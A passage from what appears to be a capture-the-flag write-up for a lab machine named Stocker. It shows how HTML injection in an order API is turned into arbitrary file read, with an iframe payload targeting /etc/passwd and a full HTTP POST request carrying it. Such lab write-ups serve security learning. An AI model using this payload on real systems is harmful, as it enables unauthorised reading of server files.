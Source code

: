 ![](/assets/images/writeups/stocker/6.png)

It is seen that the injected HTML tags are successfully rendered. So we can inject arbitrary HTML tags now.

HTML injections can be escalated to arbitrary file read vulnerability through the `iframe` tags. The source of the `iframe` must be the name of the file we want to read.

```html

<iframe frameborder='0' height='750' scrolling='no' src='/etc/passwd' width='750'></iframe>

```

```bash

POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 250
Connection: close
Cookie: connect.sid=s%3AbJDgribzFlsxX6bWGc2SXpNYUW4JptWX.mZxgaHsLBo3x1QVe%2BJ0dWssycRJ6jSJkOelyyA2%2Fd9A

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe frameborder='0' height='750' scrolling='no' src='/etc/passwd' width='750'></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}

```